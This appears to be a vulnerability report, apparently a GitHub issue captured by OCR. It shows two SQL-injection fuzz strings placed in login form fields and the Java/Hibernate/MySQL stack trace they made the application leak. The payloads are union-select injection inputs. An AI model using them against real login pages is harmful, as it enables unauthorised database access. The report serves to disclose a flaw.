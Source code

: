 FUZZ STRING USED TO CAUSE THE LEAK
> ' union (select NULL, (select @@version)) --&sessionLocation=2&redirectUrl=

or

> username=admin&password=' union (select NULL, NULL, (select @@version)) --&sessionLocation=2&redirectUrl=

LEAKED SYSTEM INFO

Originally harvested by OWASP fuzzer in HttpResponse and may not be able to reproduce using the regular browser/view source method.
```
<h1>UI Framework Error</h1>

<h2>Root Error</h2>
<pre>com.mysql.jdbc.exceptions.jdbc4.MySQLIntegrityConstraintViolationException: Duplicate entry '1-lockoutTimestamp' for key 'PRIMARY'
	at sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
	at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
	at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
	at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
	at com.mysql.jdbc.Util.handleNewInstance(Util.java:411)
	at com.mysql.jdbc.Util.getInstance(Util.java:386)
	at com.mysql.jdbc.SQLError.createSQLException(SQLError.java:1041)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4237)
	at com.mysql.jdbc.MysqlIO.checkErrorPacket(MysqlIO.java:4169)
	at com.mysql.jdbc.MysqlIO.sendCommand(MysqlIO.java:2617)
	at com.mysql.jdbc.MysqlIO.sqlQueryDirect(MysqlIO.java:2778)
	at com.mysql.jdbc.ConnectionImpl.execSQL(ConnectionImpl.java:2825)
	at com.mysql.jdbc.PreparedStatement.executeInternal(PreparedStatement.java:2156)
	at com.mysql.jdbc.PreparedStatement.executeUpdate(PreparedStatement.java:2441)
	at com.mysql.jdbc.PreparedStatement.executeBatchSerially(PreparedStatement.java:2007)
	at com.mysql.jdbc.PreparedStatement.executeBatch(PreparedStatement.java:1467)
	at com.mchange.v2.c3p0.impl.NewProxyPreparedStatement.executeBatch(NewProxyPreparedStatement.java:1135)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.performExecution(BatchingBatch.java:127)
	at org.hibernate.engine.jdbc.batch.internal.BatchingBatch.doExecuteBatch(BatchingBatch.java:114)
	at org.hibernate.engine.jdbc.batch.internal.AbstractBatchImpl.execute(AbstractBatchImpl.java:163)
	at org.hibernate.engine.jdbc.internal.JdbcCoordinatorImpl.executeBatch(JdbcCoordinatorImpl.java:226)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:484)
	at org.hibernate.engine.spi.ActionQueue.executeActions(ActionQueue.java:351)
	at org.hibernate.event.internal.AbstractFlushingEventListener.performExecutions(AbstractFlushingEventListener.java:350)
	at org.hibernate.event.internal.DefaultFlushEventListener.onFlush(DefaultFlushEventListener.java:56)
	at org.hibernate.internal.SessionImpl.flush(SessionImpl.java:1258)
	at org.hibernate.internal.SessionImpl.managedFlush(SessionImpl.java:425)
	at org.hibernate.engine.transaction.internal.jdbc.JdbcTransaction.beforeTransactionCommit(JdbcTransaction.java:101)
	at org.hibernate.engine.transaction.spi.AbstractTransactionImpl.commit(AbstractTransactionImpl.java:177)
	at org.springframework.orm.hibernate4.HibernateTransactionManager.doCommit(HibernateTransactionManager.java:584)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.processCommit(AbstractPlatformTransactionManager.java:757)
	at org.springframework.transaction.support.AbstractPlatformTransactionManager.commit(AbstractPlatformTransactionManager.java:726)
	at org.springframework.transaction.interceptor.TransactionAspectSupport.completeTransactionAfterThrowing(TransactionAspectSupport.java:553)
```
